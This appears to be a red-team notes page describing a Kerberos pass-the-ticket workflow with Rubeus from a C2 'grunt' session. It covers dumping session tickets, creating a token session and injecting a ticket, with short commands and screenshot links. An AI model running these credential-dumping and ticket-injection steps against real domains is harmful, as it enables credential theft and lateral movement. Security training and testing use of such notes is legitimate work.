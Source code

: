 # Rubeus

## Rubeus

### Pass the Ticket

#### - Show all session tickets

```
Rubeus triage
```

![](<../../../../.gitbook/assets/image (3) (1).png>)

#### - Dump the tickets

```
Rubeus dump
```

![](<../../../../.gitbook/assets/image (103).png>)

#### Loot are available in Data pane:

![](<../../../../.gitbook/assets/image (275).png>)

#### Copy the base64 ticket (bug from data interface, copy the interactive window)

![](<../../../../.gitbook/assets/image (311).png>)

#### Create a new session using MakeToken

```
MakeToken help

[!] Usage: MakeToken <username> <domain> <password>[ <logontype> ]
```

![](<../../../../.gitbook/assets/image (272).png>)

#### Create a new grunt session&#x20;

```
CreateProcessWithToken

[!] Usage: CreateProcessWithToken <command>[ <path> ]
```

![](<../../../../.gitbook/assets/image (101).png>)

#### Pass the ticket

```
rubeus ptt /ticket:
```

![](<../../../../.gitbook/assets/image (260).png>)

![](<../../../../.gitbook/assets/image (9).png>)

#### cifs ticket injected&#x20;

![](<../../../../.gitbook/assets/image (126).png>)

###
